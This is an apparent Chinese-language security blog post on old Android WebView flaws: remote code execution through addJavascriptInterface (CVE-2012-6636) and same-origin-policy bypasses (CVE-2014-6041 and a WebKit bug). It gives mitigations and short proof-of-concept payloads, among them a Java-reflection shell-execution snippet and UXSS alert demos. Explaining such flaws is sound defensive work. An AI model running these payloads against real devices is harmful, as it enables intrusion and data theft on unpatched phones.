 ```yaml
---

title: "Android WebView 為你的使用者打開了漏洞之門你知道嗎？"
description: "廣為 Android 開發者所使用的 WebView，在你打開了 JavaScript 功能的時候，背後一些由於系統漏洞而引發出來意想不到的風險卻有機會由此而生你知道嗎？我們在下面的文章為大家對這些風險漏洞做個整理。"
category: "技術專欄"
tags: [Mobile, Android, WebView, UXSS]
author: "anfa"
keywords: "WebView, UXSS, CVE"
image: "https://lh3.googleusercontent.com/-BtDqPupmJiA/VDy2gz9bkQI/AAAAAAAAAuM/liUV3DXWcuE/s500-no/14773948755_6f8774540b_o.jpg"
image_credit: "https://www.flickr.com/photos/chrisgold/14773948755/in/photostream/"
image_caption: "Chris Goldberg(flickr)"
---
```


為了解決在應用程式中顯示網頁的需求，開發者一般會使用到由系統提供的 WebView 元件。而由於 JavaScript 被廣泛應用在網頁上，開發者通常也會把 WebView 處理 JavaScript 的功能打開，好讓大部分網頁能正常運作。但就在開啟這個像是必不可少的 JavaScript 功能時，背後一些由於系統漏洞而引發出來意想不到的風險卻有機會由此而生。接下來的部分將把這些漏洞為大家做個整理。


READMORE

### 相關漏洞

#### 1. 遠端代碼執行 (Remote Code Execution)

##### 風險：木馬跳板，個資被盜
目前有機會發生 RCE 風險都圍繞在 [addJavascriptInterface][] 這個功能上，該功能原意是為被載入的網頁和原生程式間建立一個"橋樑"，通過預先設定好的介面，讓網頁能呼叫指定的公開函式並取得函式回傳的結果。

{% highlight java %}
class JsObject {
    public String toString() { return "Hello World"; }
}

webView.getSettings().setJavaScriptEnabled(true);
webView.addJavascriptInterface(new JsObject(), "injectedObject");
webView.loadUrl("http://www.example.com/");
{% endhighlight %}

{% highlight html %}
<html>
    <head>…
    <script>
       alert(injectedObject.toString()); // return "Hello World"
    </script>
    </head>
    <body>…</body>
</html>
{% endhighlight %}

像上面的例子裡，網頁能通過預先設定好的 "injectedObject" 介面，呼叫 "toString" 函式，得到 "Hello World" 這個字串。

其漏洞 [CVE-2012-6636](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2012-6636) 最早在2012年12月被[公佈](http://50.56.33.56/blog/?p=314)出來，攻擊者有機會利用他通過 Java Reflection API 來執行任意代碼。影響 Android 1.X ~ 4.1。

{% highlight html %}
<script>
    function execute(cmdArgs) {
        return injectedObject.getClass().forName("java.lang.Runtime")
                              .getMethod("getRuntime",null)
                              .invoke(null,null).exec(cmdArgs);
    }
    execute(["/system/bin/sh","-c","cat vuln >> attacker.txt"]);
</script>
{% endhighlight %}

其後 Google 在 Android 4.2 開始對 [addJavascriptInterface][] 的使用方式加了限制，使用時需要在 Java 端把可被網頁執行的公開函式透過 @JavascriptInterface 來標註。並奉勸開發者別在 4.1 或之前的系統上使用 [addJavascriptInterface][]。

可是是否開發者只要在受影響的系統上不主動使用 [addJavascriptInterface][] 就能解決問題呢？答案是否定的。

在 Android 3.X ~ 4.1 上，WebView 預設會用 [addJavascriptInterface][] 添加一個叫 "searchBoxJavaBridge\_" 的介面。開發者如果沒有注意的話就會同樣會讓使用者陷入風險中。很巧合地，從 Android 3.0 開始 Google 加入了 [removeJavascriptInterface][] 函式讓開發者可以移定指定的介面。所以開發者可以使用該函式在受影響的系統上把 "searchBoxJavaBridge\_" 移除。

除了 "searchBoxJavaBridge\_" 外，還有兩個介面會在特定情況下被加到 WebView 中。若使用者有在手機上 [系統設定] 裡的 [協助工具]，打開 [服務] 子分類中的任何一個項目，系統就會對其後建立的 WebView 自動加上 "accessibility" 和 "accessibilityTraversal"這兩個介面。這行為在 Android 4.4 由於[舊版 WebView 被取代](https://android.googlesource.com/platform/frameworks/base/+/94c0057d67c2e0a4b88a4f735388639210260d0e)而消失了。

![Android 協助工具服務][android_accessibility_service]


#### 防範

作為開發者

* 如非需要，關閉 JavaScript 功能 (預設關閉)
* 可考慮把網頁當作範本儲存在應用內，再用其他途徑載入資料
* 在有風險的系統中停用 [addJavascriptInterface][]
* 在有風險的系統中使用 [removeJavascriptInterface][] 移除系統自帶的介面

作為使用者

* 如非需要，關閉 [不明的來源] 選項 (預設關閉)
* 使用 Android 4.2 或以上不受影響的系統
* 勿在受影響的系統上使用機敏服務或儲存機敏資料

![Android 不明的來源][android_unknown_source]


#### 2. 繞過同源策略 (Same-Origin Policy bypass)

##### 風險：個資被盜
為防止網頁在載入外部資源時引發安全問題，瀏覽器會實作[同源策略](https://developer.mozilla.org/zh-TW/docs/Web/JavaScript/Same_origin_policy_for_JavaScript)以限制程式碼和不同網域資源間的互動。

其中 [CVE-2014-6041](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6041) 漏洞，通過程式在處理 \u0000 (unicode null byte) 時的失誤而繞過了原有的限制。

{% highlight html %}
<html>
    <head>
        <title>CVE-2014-6041 UXSS DEMO</title>
    </head>
    <body>
        <iframe name="target_frame" src="http://devco.re/"></iframe>
        <br />
        <input type="button" value="go" onclick="window.open('\u0000javascript:alert(document.domain)',
'target_frame')" />
    </body>
</html>
{% endhighlight %}

如果上面的網頁是放置在與 <http://devco.re/> 不同源的地方，正常來說點擊按鈕後會因為 SOP 的關係，該段 JavaScript 無法執行而不會有反應。但在受影響的環境裡則能順利執行並跳出 "devco.re" 這個網域名稱。

上述問題被發現後沒多久，再由相同研究員發現一個早在多年前已經被修正的 [WebKit 臭蟲](http://trac.webkit.org/changeset/96826)仍然出現在 Android 4.3 及之前的版本上。

{% highlight html %}
<script>
window.onload = function()
{
    object = document.createElement("object");
    object.setAttribute("data", "http://www.bing.com");
    document.body.appendChild(object);
    object.onload = function() {
      object.setAttribute("data", "javascript:alert(document.domain)");
        object.innerHTML = "foobar";
    }
}
</script>

上述的跨來源操作同樣違反了 SOP，應當被拒絕執行。但他卻能在有風險的 WebView 上被執行，造成風險。

{% endhighlight %}

#### 防範

作為開發者

* 如非需要，關閉 JavaScript 功能 (預設關閉)
* 可考慮把網頁當作範本儲存在應用內，再用其他途徑載入資料

作為使用者

* 如非需要，關閉 [不明的來源] 選項 (預設關閉)
* 使用 Android 4.4 或以上不受影響的系統

### 結語

談到這裡大家可能會有個疑問，如果應用程式中所載入的遠端網頁網址都是固定，受開發者控制的，應該就會安全沒有風險。還記得在 [被忽略的 SSL 處理](http://devco.re/blog/2014/08/15/ssl-mishandling-on-mobile-app-development/) 裡提及過的中間人攻擊嗎？如果連線過程是採用明文的 HTTP ，或是加密的 HTTPS 但沒落實做好憑證檢查，內容就有機會被攻擊者竊取修改，再結合上面提到的漏洞，對使用者帶來的影響則大大增加。

下面我們製作了一段結合中間人攻擊與 addJavascriptInterface 漏洞，模擬使用者手機被入侵的影片：

{% youtube reKEu-Ajo50 %}

從影片的最後可以看到，攻擊者取得存在漏洞的應用程式權限，並取得裡面的機敏資料。

而在繞過同源策略問題上，無論是透過 null byte 或是設定屬性來達到，其實都是屬於存在已久的手法，多年前在別的平台、瀏覽器上就已經發生過，除了編寫上的疏忽外，缺乏一個完整的測試流程去做檢查相信也是其中一個原因。

Android 的生態系統問題，使得大多數的使用者手機未能跟得上系統更新的步驟，讓他們即使知道自己所使用系統存在問題也愛莫能助。

作為開發商，應需要在系統支援度與其相應存在的安全風險中取得平衡，來決定應用程式所支援的最低版本為何。最後作為一個負責任的開發者，應為已被公開的漏洞做好應對措施，避免使用者暴露在風險當中。

### 參考
- [Abusing WebView JavaScript Bridges](http://50.56.33.56/blog/?p=314)
- [Android Browser Same Origin Policy Bypass < 4.4 - CVE-2014-6041](http://www.rafayhackingarticles.net/2014/08/android-browser-same-origin-policy.html)
- [A Tale Of Another SOP Bypass In Android Browser < 4.4](http://www.rafayhackingarticles.net/2014/10/a-tale-of-another-sop-bypass-in-android.html)

[addJavascriptInterface]: http://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface(java.lang.Object, java.lang.String)

[removeJavascriptInterface]: http://developer.android.com/reference/android/webkit/WebView.html#removeJavascriptInterface(java.lang.String)
[android_accessibility_service]: https://lh4.googleusercontent.com/-JOttiWUazYQ/VDwYQnYdK9I/AAAAAAAAAts/Bmfp29QdqCY/w277-h492-no/android_accessibility_service.png
[android_unknown_source]: https://lh3.googleusercontent.com/-4jQ2fAT2JXc/VDwYNA824HI/AAAAAAAAAtg/bF4CIHm5v9M/w295-h492-no/android_unknown_source.png

